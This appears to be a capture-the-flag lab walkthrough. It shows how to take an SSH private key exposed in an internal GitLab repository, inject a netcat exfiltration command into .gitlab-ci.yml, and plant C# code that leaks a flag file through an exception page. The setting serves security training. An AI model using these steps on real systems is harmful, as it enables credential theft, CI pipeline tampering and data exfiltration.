 # TODO: Better Code Auditing Solution

- Navigate to int-gitlab.bigsoftware.com.
- Click explore at the bottom left.
- Open the web-store-extensions/ShippingPlugin project.
- navigate into the `.ssh/` directory and view the contents of the `id_rsa` file. Click to view the `raw` contents of the file.
- Open git bash on the Desktop through the right click menu.
- Create a `.ssh/` directory in your home directory -- 
    ```bash
    cd ~/ && mkdir .ssh
    ```
- Use wget to download the raw `id_rsa` private key file and store it in the `.ssh/` directory -- 
    ```bash
    cd .ssh && wget http://int-gitlab.bigsoftware.com/web-store-extensions/ShippingPlugin/-/raw/master/.ssh/id_rsa
    ```
- Change directories back to the Desktop -- 
    ```bash
    cd ~/Desktop
    ```
- Clone the ShippingPlugin project (no permissions required):
    ```bash
    git clone git@int-gitlab.bigsoftware.com:web-store-extensions/ShippingPlugin.git
    ```
- Get your system's IP address through `ipconfig`.
- In the .gitlab-ci.yml file (it's hidden in the git bash prompt), insert a new line after line 10 with the same indentation as line 10: 
    ```
    - "nc 10.0.0.58 5555 < /home/deployer/build-flag.txt"
    ``` 
    _Make sure to use your VM's actual IP address (it's given through DHCP)._
- Open a separate command prompt and enter 
    ```bash
    ncat -l -p 5555
    ```
- Back in the git bash prompt (still in the ShippingPlugin local repository), you'll need to set an email address and name before committing the file. Run 
    ```bash
    git config --global user.email "jsmith@bigsoftware.com"

    git config --global user.name "John Smith"
    ```
- Next, 
    ```bash
    git add .gitlab-ci.yml
    
    git commit
    ``` 
    Notepad++ will pop up prompting for a commit message. Enter whatever you want (you have to enter something, but it doesn't matter what), save the file, and close the editor.
- ```bash
    git push -u origin master
    ```
- After a short time, the first flag should show up in the netcat command prompt.
- Next, enter the ShippingPlugin sub-directory (if you cloned the project as above, you'll be in ShippingPlugin/ShippingPlugin).
- Insert a few lines after line 15 
    ```csharp
    string text = System.IO.File.ReadAllText(@"/home/webapp/deploy-flag.txt");
    throw new ArgumentOutOfRangeException(text);
    ```
- Add, commit, and push this file to the server.
    ```bash
    git add . 
    git commit -m "Commit message"
    git push origin master
    ```
- Wait about a minute, and then navigate your browser to `store.bigsoftware.com`. add any item to your cart, click checkout, log in using the example credentials on the page, and click shipping. Enter any zip code, and then click Calculate Shipping.
- If done right, the page will display an exception with the contents of the deploy-flag.txt file displayed near the top of the page.
